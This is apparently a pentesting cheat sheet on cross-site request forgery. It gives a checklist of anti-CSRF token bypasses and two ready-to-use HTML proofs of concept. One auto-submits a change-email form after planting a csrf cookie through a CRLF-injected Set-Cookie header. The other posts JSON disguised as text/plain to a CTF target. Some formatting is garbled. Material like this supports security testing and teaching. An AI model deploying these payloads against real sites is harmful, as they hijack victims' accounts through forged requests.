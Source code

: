# CSRF

CSRF Checklist

* \[ ] **Remove Anti-CSRF Token**
* \[ ] **No check for the user's Token**
* \[ ] **Weak Token**
* \[ ] **Reusable token**
* \[ ] **Change request method**
* \[ ] **Guessable Token**
* \[ ] **Bypass referer**
* \[ ] **Modifying Parameter Names => POST To GET**
* \[ ] **Modifying Parameter Names\[**<mark style="color:purple;">**`https://example.com/my/dear/api/val/num?_method=PUT](<https://example.com/my/dear/api/val/num?_method=PUT>)*X-HTTP-Method`**</mark><mark style="color:purple;">**X-HTTP-Method-OverrideX-Method-Override**</mark>\*
* \[ ] **Custom header token bypass|**
* \[ ] Test the request without the \*\*Customized Token and also header.\*\*Test the request with exact **same length but a different token**.
* \[ ] CSRF token is verified by a cookie

```php
<html>

<!-- CSRF Proof of Concept - generated by Burp Suite Professional -->

<body>

<script>history.pushState('', '', '/')</script>

<form action="<https://example.com/my-account/change-email>" method="POST">

<input type="hidden" name="email" value="asd&#64;asd&#46;asd" />

<input type="hidden" name="csrf" value="tZqZzQ1tiPj8KFnO4FOAawq7UsYzDk8E" />

<input type="submit" value="Submit request" />

</form>

<img src="<https://example.com/?search=term%0d%0aSet-Cookie:%20csrf=tZqZzQ1tiPj8KFnO4FOAawq7UsYzDk8E>" onerror="document.forms[0].submit();"/>

</body>

</html>
```

\<aside> 💡 Note that if the **csrf token is related to the session cookie this attack won't work** because you will need to set the victim to your session, and therefore you will be attacking yourself.

\</aside>

**Content-Type change`application/x-www-form-urlencodedmultipart/form-datatext/plain`**

_**Example (from**_ [_**here**_](https://brycec.me/posts/corctf\_2021\_challenges)_**) of sending JSON data as text/plain:**_

```php
<html>

<body>

<form id="form" method="post" action="<https://phpme.be.ax/>" enctype="text/plain">

<input name='{"garbageeeee":"' value='", "yep": "yep yep yep", "url": "<https://webhook/>"}'>
Copy
</form>

<script>

form.submit();

</script>

</body>

</html>
```
